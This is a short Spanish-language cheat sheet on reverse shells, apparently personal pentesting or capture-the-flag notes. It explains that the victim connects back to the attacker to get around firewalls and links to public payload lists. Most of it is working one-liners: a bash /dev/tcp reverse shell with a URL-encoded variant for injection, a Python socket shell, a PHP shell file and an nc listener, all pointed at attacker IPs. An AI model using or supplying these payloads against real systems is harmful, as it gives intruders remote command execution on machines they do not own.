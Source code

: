 #revershell 

---------

Una **reverse shell** sirve para que un atacante obtenga acceso remoto a una máquina víctima.  
La víctima inicia la conexión hacia el atacante, lo que **evade firewalls o NAT**, y le da al atacante una shell para ejecutar comandos remotamente.

--------

[Articulo con one liners que dan sirven para tirar la reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[Otro articulo de revershell en este saque de groovy](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
El one liner que mas vamos a usar
```
bash -c 'bash -i >& /dev/tcp/IpNuestra/Puerto 0>&1'
Ejemplo: bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'
```

Aveces tenemos que probar poner los & directamente con url enconde por que se pueden mal interpretar con el codigo
```
bash -c 'bash -i >%26 /dev/tcp/IpNuestra/Puerto 0>%261'
Ejemplo: bash -c 'bash -i >%26 /dev/tcp/10.10.16.4/443 0>%261'
```

Mientras tenemos que estar en escucha con [[nc -nlvp 443]]

-----
# Python3

```
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.16.10",5000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```



------
# Desde un archivo .php
Creamos el archivo shell.php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'");
?>
```
